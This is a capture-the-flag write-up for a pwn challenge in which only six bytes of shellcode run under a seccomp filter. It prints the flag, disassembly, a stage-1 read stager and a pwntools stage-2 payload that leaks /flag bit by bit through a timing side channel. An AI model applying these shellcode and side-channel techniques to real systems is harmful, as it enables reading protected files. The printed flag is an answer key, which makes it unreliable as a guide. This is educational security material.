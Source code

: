 # Shellcode As A Service

**Author**: zeyu2001

**Category**: Pwn

Flag: `SEE{n1c3_sh3llc0ding_d6e25f87c7ebeef6e80df23d32c42d00}`

## Description

Hey, welcome to my new SaaS platform! As part of our early access program, we are offering the service for FREE. Our generous free tier gives you a whole SIX BYTES of shellcode to run on our server. What are you waiting for? Sign up now!

## Difficulty

Easy

## Solution

The program only reads 6 bytes of shellcode before executing it. Only two syscalls are allowed - `open` and `read`.

To get past the 6-byte limit, we can read a 2nd-stage payload by using `read()` to read more shellcode from `stdin` into somewhere where we can then execute it.

In the disassembly, we can see that `rdx` is already set to the address of our shellcode. Therefore, we can simply use the value in `rdx` as our 2nd argument (`mov esi, edx`).

```
0x00005653ecfdc3ab <+514>:   mov    rax,QWORD PTR [rip+0x2cae]        # 0x5653ecfdf060 <shellcode_mem>
0x00005653ecfdc3b2 <+521>:   mov    rdx,rax
0x00005653ecfdc3b5 <+524>:   mov    eax,0x0
0x00005653ecfdc3ba <+529>:   call   rdx
```

We don't have to change the 3rd argument, since we can just use the value already in `rdx`.

Here's our stage 1 shellcode:

```
xor edi, edi
mov esi, edx
syscall
```

Since we can only use `open` and `read`, we can't simply write the flag to `stdout`. Instead, we need to leak the flag using some kind of side-channel. To do this, we can read the flag bit by bit and create an infinite loop if the bit is 1, and do nothing if the bit is 0.

```python
stage2 = asm(("""
.rept 0x6
nop
.endr
""" 
    + shellcraft.amd64.linux.open('/flag')
    + shellcraft.amd64.linux.read('rax', 'rsp', 0x100)
    + f"""
    xor r11, r11
    xor rax, rax
    mov al, [rsp+{offset}]
    shr al, {bit_offset}
    shl al, 7
    shr al, 7
loop:
    cmp rax, r11
    je end
    jmp loop
end:
"""
), arch='amd64')
```

This timing difference can then be easily detected by how long the TCP connection remains open.

Solve script [here](solve/solve.py).